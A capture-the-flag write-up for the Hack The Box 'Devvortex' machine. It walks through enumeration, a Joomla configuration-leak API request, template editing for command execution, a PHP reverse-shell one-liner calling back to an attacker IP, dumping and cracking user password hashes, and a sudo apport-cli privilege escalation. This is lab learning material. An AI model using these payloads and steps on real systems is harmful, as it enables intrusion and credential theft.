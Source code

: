```yaml
---
slug: /write-up/htb/easy/devvortex
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

First of all, we access via browser to the IP and got redirected to http://devvortex.htb/, let's add it to /etc/hosts.

Navigating a bit, we can see that it might be vulnerable to file inclusion, since requesting an non-existing page: http://devvortex.htb/aa.html showed a nginx server error

```bash
└─$ whatweb http://devvortex.htb                 
http://devvortex.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


Let's try to extract all the files we can find in the server with `fuff`:

```bash
ffuf -w /opt/github/SecLists/Discovery/Web-Content/common.txt:FUFF -u http://devvortex.htb/FUFF.html
```

So far, nothing weird appears to be accessible:

```
about                   [Status: 200, Size: 7388, Words: 2258, Lines: 232, Duration: 40ms]
contact                 [Status: 200, Size: 8884, Words: 3156, Lines: 290, Duration: 207ms]
do                      [Status: 200, Size: 7603, Words: 2436, Lines: 255, Duration: 38ms]
index                   [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 45ms]
portfolio               [Status: 200, Size: 6845, Words: 2083, Lines: 230, Duration: 42ms]
```

The images are served from http://devvortex.htb/images/hero-bg.jpg, if we try to access /images we get 403, let's try to fuzz the directories by checking if they return 403:

```
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 43ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 42ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 52ms]
                        [Status: 200, Size: 18048, Words: 6791, Lines: 584, Duration: 47ms]
```

Nothing so far, let's check what other ports are open with nmap:

```
└─$ nmap devvortex.htb   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:42 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let's check versions:

http

```
└─$ nmap devvortex.htb -p80 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DevVortex
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

ssh

```
└─$ nmap devvortex.htb -p22 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-20 16:43 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Nothing seems weird, let's try to scan for ALL ports opened, nothing else found.

Let's enumerate subdomains by using the Host header:

```bash
ffuf -w /opt/github/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb -fl 8
```

Got this subdomain:

```
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 88ms]
```

which looks like it's serving php content: `http://dev.devvortex.htb/index.php`

A simple scan with ffuf reveals interesting stuff:

```
.git/logs/              [Status: 403, Size: 3653, Words: 792, Lines: 70, Duration: 90ms]
configuration           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
index                   [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 80ms]
```

With .git/log we can reconstruct the source code but it's returning a 403.
configuration.php looks like a blank page, but it's a PHP page, so it would be interesting to note it for future usage.

Let's enumerate directories:

```
home                    [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 465ms]
```

- http://dev.devvortex.htb/error.php  --> File not found. 
- http://dev.devvortex.htb/any.php  --> File not found.

Looks a possible LFI attack vector, checking /robots.txt reveals this is a Joomla CMS page.

Following the paths in the robots.txt, we can see this URL: http://dev.devvortex.htb/administrator/index.php

Now that we know it's a Joomla CMS page, let's make a Google search, and we found the following links:

- https://hackertarget.com/attacking-enumerating-joomla/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
- https://vulncheck.com/blog/joomla-for-rce


## Foothold

```bash
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```

According to the articles, this URLS leaks the user/password for the mysql database used by joomla. However, the same user/password has been re-used for the Joomla CMS admin user

Once we have admin access to joomla instance, we can modify a template php files to include RCE, e.g.:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=id

Now let's send a reverse shell:

```bash
php -r '$sock=fsockopen("10.10.14.218",9001);popen("/bin/sh <&3 >&3 2>&3", "r");'
```
with URL-encode:

http://dev.devvortex.htb/templates/cassiopeia/offline.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.218%22%2C9001%29%3Bpopen%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%2C%20%22r%22%29%3B%27

We got a reverse-shell, but to `www-data` user, in order to get the flag, we need to get access to `logan` user.

## Lateral movement

According to the article, the leaked credentials are used to connect the MySQL database, so, let's connect to the DB re-using the credentials.

We go to the users table and see the hashed passwords:

```bash
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

We can try to crack the hash with hashcat:

```bash
hashcat exfil/hash.txt -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

and it worked, it reveal the password for the user logan, now we can connect with SSH and read the user flag.

## Privilege escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Just do a quick search about the sudoable app and found a poc to get root access: https://github.com/diego-tella/CVE-2023-1326-PoC

I tired and it just worked giving root access and we got root flag.
